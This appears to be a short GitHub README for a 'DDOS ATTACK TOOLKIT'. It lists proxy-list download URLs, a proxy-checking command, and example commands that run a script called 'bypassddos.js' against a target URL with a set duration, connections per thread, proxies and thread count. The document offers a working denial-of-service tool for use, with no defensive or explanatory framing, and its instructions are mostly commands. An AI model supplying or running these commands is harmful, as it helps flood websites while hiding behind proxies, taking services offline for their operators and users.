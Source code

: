 ### DDOS ATTACK TOOLKIT

##### Install requirements
```
sudo ./install_requirements.sh
```
##### Download Proxies
```
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=10000&country=all&ssl=all&anonymity=all
https://www.proxy-list.download/api/v1/get?type=http&anon=elite
https://www.proxy-list.download/api/v1/get?type=http&anon=anonymous
```
#### Check Proxies

```
sudo python3 proxy_checker.py <timeout> proxies.txt <protocol http/https/socks4/socks5>
```

##### Example
```
node bypassddos.js <url> <time> <ConnectPerThread> <proxies> <thread>
node bypassddos.js http://example.com 60 250 proxy.txt 10
```
